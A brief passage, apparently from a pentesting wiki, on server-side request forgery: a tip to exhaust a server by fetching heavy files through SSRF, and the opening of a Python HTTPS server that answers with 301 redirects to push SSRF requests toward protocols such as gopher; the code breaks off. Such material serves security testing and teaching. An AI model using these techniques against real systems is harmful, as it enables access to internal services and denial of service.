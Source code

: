 Create several sessions and try to download heavy files exploiting the SSRF from the sessions.

## SSRF PHP Functions

{% content-ref url="../../network-services-pentesting/pentesting-web/php-tricks-esp/php-ssrf.md" %}
[php-ssrf.md](../../network-services-pentesting/pentesting-web/php-tricks-esp/php-ssrf.md)
{% endcontent-ref %}

## SSRF Redirect to Gopher

For some exploitations you might need to **send a redirect response** (potentially to use a different protocol like gopher). Here you have different python codes to respond with a redirect:

```python
# First run: openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

class MainHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        print("GET")
        self.send_response(301)
```